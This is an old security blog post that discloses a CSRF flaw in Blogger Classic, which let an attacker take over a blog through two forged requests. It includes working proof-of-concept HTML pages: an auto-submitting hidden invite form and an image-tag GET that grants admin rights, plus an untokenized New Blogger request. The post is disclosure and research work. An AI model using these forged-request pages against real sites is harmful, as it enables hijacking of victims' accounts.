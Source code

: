 ```yaml
---
title: CSRF-ing Blogger Classic
author: pagvac
date: Fri, 19 Jan 2007 10:02:10 GMT
template: post.pug
---
```


In [Blogger](http://www.blogger.com) Classic, admin users who originally created a blog can be removed by other admin users. This behavior allows for a complete and non-reversible hijack of a Blogger Classic blog through  CSRF/XSRF/session riding/one-click attacks.

The process is a two shots attacks, meaning that the victim admin user needs to click on two different links while being authenticated. Due to the nature of blogging, in which admins go through the comments posted by visitors, this attack is very feasible. This is probably even more true for blogs that are moderated, since blog admins review posts carefully including URLs embedded in posts before publishing the posts, thus clicking on the evil link **while authenticated**.

What each evil URL does:

1. Send an invitation link to the attacker on behalf of the admin user in order to become a blog member (only permission to create new posts is given to the attacker at this point)
2. Change the attacker's permissions from guest to admin.

After this, the attacker can login to the target blog as an admin user and remove the original admin user who created the blog (remember that in "Blogger Classic" admins users can remove the original admin user of the blog). The only rule is that there must exist **at least one admin user**. At this point, the victim admin user can never take control over the  blog even though he/she was the original founder.

---

### blogger-classic-attack-step-1.html

```html
<HTML><BODY>
<H1>You are being CSRFed in the background while viewing this HTML page</H1>
<iframe src="./blogger-classic-add-user.html" height="0" width="0" frameborder="0">
</BODY></HTML>
```

---

### blogger-classic-add-user.html

```html
<HTML><BODY>
<!--
Blogger Classic "invite new team member" request
POST http://www.blogger.com/send-invite.do

blogID=12345678&email0=attacker@domain.com&email1=&email2=&inviteMessage=

Note: 'blogID' can be found by visitors on the main page of a blog within several URLs in the source code of the page. Change 'email0' with attacker's email.
-->
<form method="POST" id="evil" name="evil" action="http://www.blogger.com/send-invite.do">
<input type="hidden" name="blogID" value="12345678">
<input type="hidden" name="email0" value="attacker@domain.com">
<input type="hidden" name="email1" value="">
<input type="hidden" name="email2" value="">
<input type="hidden" name="inviteMessage" value="">
</form>
<script>document.evil.submit()</script>
</BODY></HTML>
```

---

### blogger-classic-attack-step-2.html

```html
<html><body>
<!--
This request is a GET, and makes an existing guest member (the attacker in this case) an admin.

i.e.:
http://www.blogger.com/team-member-modify.do?blogID=12345678&memberID=55555555&isAdmin=1

Note: assign to 'memberID' the value of the 'userID' of the attacker. 'userID' can be found after logging into Blogger Classic (rather than "New Blogger") using the attacker's Blogger Classic account and accessing "edit profile"  (variable in HTML form named 'userID').
This value is also available in the address bar's URL after acessing "view profile" (i.e.: http://www.blogger.com/profile/55555555) .
'blogID' is the same value as the one used in the first HTML attack page ("blogger-classic-add-user.html").
-->
<script>
	var_blogID=12345678; // change to ID of target Blogger Classic blog
	var_memberID=55555555; // change to attacker's member ID

	new Image().src="http://www.blogger.com/team-member-modify.do?blogID="+var_blogID+"&memberID="+var_memberID+"&isAdmin=1";
</script>
<H1>You are being CSRFed in the background while viewing this HTML page</H2>
</body></html>
```

---

After visiting a URL that contains the second HTML file, the attacker can now login to the target blog as an admin user and remove the original owner of the blog, thus completely hijacking the blog. The attack could be even more automated, but the attack walkthrough discussed here is enough to take over a "Classic Blogger" blog.

The first attack HTML file _attack-step-1.html_ calls _blogger-classic-add-user.html_ through an iframe so that the forged POST request is sent **in the background** while the victim admin user is viewing the HTML page. The second second attack HTML file _blogger-classic-attack-step-1.html_ uses an image object that sends the forged GET request **in the background** without needing to use an iframe.

By the way, in "New Blogger" there are also some interesting requests that are not being tokenized. Similar to Blogger Classic, changing profile details does require a token (i.e.: 'securityToken' parameter), while inviting a new user, for instance, does not. I.e.:

```http
POST http://www2.blogger.com/add-authors.do

blogID=1234567890123456789&authorsList=attacker%40domain.com+&submit=true
```

Note: I suspect that it is possible to tell when a blog is "Classic Blogger" or "New Blogger" by looking up the 'blogID' value from the source code of the main blog page and checking if the numeric value is 8 digits long, rather than 19 digits long which is used by "New Blogger"

Solution: admin users are recommended to switch to new blogger, and to use a different web browser to visit links while logged on to Blogger.

Greetings to pdp, David Kierznowski , Amir Azam (thanks for testing the attack). This CSRF experiment is dedicated to my babe peluchita!!!
